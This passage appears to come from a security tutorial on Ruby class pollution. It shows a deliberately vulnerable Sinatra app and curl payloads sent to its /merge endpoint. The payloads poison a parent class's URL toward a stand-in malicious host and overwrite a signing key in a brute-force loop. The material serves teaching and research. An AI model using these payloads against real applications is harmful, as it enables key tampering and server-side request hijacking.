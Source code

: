 ```ruby
      url = Person.url
      response = Net::HTTP.get_response(URI(url))
      { status: 'HTTP request made', url: url, response_body: response.body }.to_json
    else
      { status: 'Failed to access URL variable' }.to_json
    end
  end

  # Curl command to infect User class URL:
  # curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"url":"http://example.com"}}}' http://localhost:4567/merge

  # GET /sign_with_subclass_key - Signs data using the signing key stored in KeySigner
  get '/sign_with_subclass_key' do
    content_type :json

    # This gadget signs data using the signing key stored in KeySigner class
    signer = KeySigner.new
    signed_data = signer.sign(KeySigner.signing_key, "data-to-sign")

    { status: 'Data signed', signing_key: KeySigner.signing_key, signed_data: signed_data }.to_json
  end

  # Curl command to infect KeySigner signing key (run in a loop until successful):
  # for i in {1..1000}; do curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"signing_key":"injected-signing-key"}}}}}}' http://localhost:4567/merge; done

  # GET /check-infected-vars - Check if all variables have been infected
  get '/check-infected-vars' do
    content_type :json

    {
      user_url: Person.url,
      signing_key: KeySigner.signing_key
    }.to_json
  end

  run! if app_file == $0
end
```

### Poison Parent Class

With this payload:

```bash
curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"url":"http://malicious.com"}}}' http://localhost:4567/merge
```

It's possible to modify the value of the **`@@url`** attribute of the parent class **`Person`**.
